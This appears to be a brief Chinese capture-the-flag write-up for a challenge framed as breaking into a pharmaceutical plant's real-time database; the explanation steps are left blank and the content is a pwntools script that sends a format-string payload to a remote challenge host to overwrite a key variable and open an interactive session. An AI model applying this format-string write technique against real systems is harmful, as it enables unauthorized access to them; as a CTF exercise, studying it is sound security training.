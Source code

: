 # 实时数据监测

> 题目描述：小A在对某家医药工厂进行扫描的时候，发现了一个大型实时数据库系统。小A意识到实时数据库系统会采集并存储与工业流程相关的上千节点的数据，只要登录进去，就能拿到有价值的数据。小A在尝试登陆实时数据库系统的过程中，一直找不到修改登录系统key的方法，虽然她现在收集到了能够登陆进系统的key的值，但是只能想别的办法来登陆。

---

## Writeup

1.

2.

3.

4. 代码实现
```python
import pwn

pwn.context(arch='i386', os='linux')

#p = pwn.process('./9926c1a194794984978011fc619e3301')
p = pwn.remote('220.249.52.133', 30149)

key_addr = 0x804A048
payload = b'%35795746x%16$n\x00' + pwn.p32(key_addr)    # %x：写入35795746个字符，$16$n：偏移量为16，payload = arg1 + arg2（中间用\x00隔开）

p.sendline(payload)

p.interactive()
```